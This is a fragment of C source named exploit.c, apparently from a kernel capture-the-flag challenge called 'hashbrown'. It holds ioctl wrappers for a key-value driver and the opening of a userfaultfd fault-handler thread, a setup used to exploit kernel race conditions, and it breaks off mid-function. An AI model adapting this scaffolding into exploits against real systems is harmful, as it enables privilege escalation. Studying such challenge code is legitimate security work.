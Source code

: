 ```exploit.c
// wrappers
void add_key(int fd, uint key, uint size, char *data){
  printf("[+] add_key: %d %d %p\n", key, size, data);
  request_t req = {
    .key = key,
    .size = size,
    .src = data
  };
  long ret = ioctl(fd, ADD_KEY, &req);
  assert(ret != INVALID && ret != EXISTS);
}
void delete_key(int fd, uint key){
  printf("[+] delete_key: %d\n", key);
  request_t req = {
    .key = key
  };
  long ret = ioctl(fd, DELETE_KEY, &req);
  assert(ret != NOT_EXISTS && ret != INVALID);
}
void update_value(int fd, uint key, uint size, char *data){
  printf("[+] update_value: %d %d %p\n", key, size, data);
  request_t req = {
    .key = key,
    .size = size,
    .src = data
  };
  long ret = ioctl(fd, UPDATE_VALUE, &req);
  assert(ret != INVALID && ret != NOT_EXISTS);
}
void delete_value(int fd, uint key){
  printf("[+] delete_value: %d\n", key);
  request_t req = {
    .key = key,
  };
  long ret = ioctl(fd, DELETE_VALUE, &req);
  assert(ret != NOT_EXISTS);
}
void get_value(int fd, uint key, uint size, char *buf){
  printf("[+] get_value: %d %d %p\n", key, size, buf);
  request_t req = {
    .key = key,
    .size = size,
    .dest = buf
  };
  long ret = ioctl(fd, GET_VALUE, &req);
  assert(ret != NOT_EXISTS && ret != INVALID);
}

/**** (END hashbrown) ****/

// userfaultfd-utils
static void* fault_handler_thread(void *arg)
{
  puts("[+] entered fault_handler_thread");

  static struct uffd_msg msg;   // data read from userfaultfd
  struct uffdio_copy uffdio_copy;
  long uffd = (long)arg;        // userfaultfd file descriptor
  struct pollfd pollfd;         //
  int nready;                   // number of polled events
  int shmid;
  void *shmaddr;

```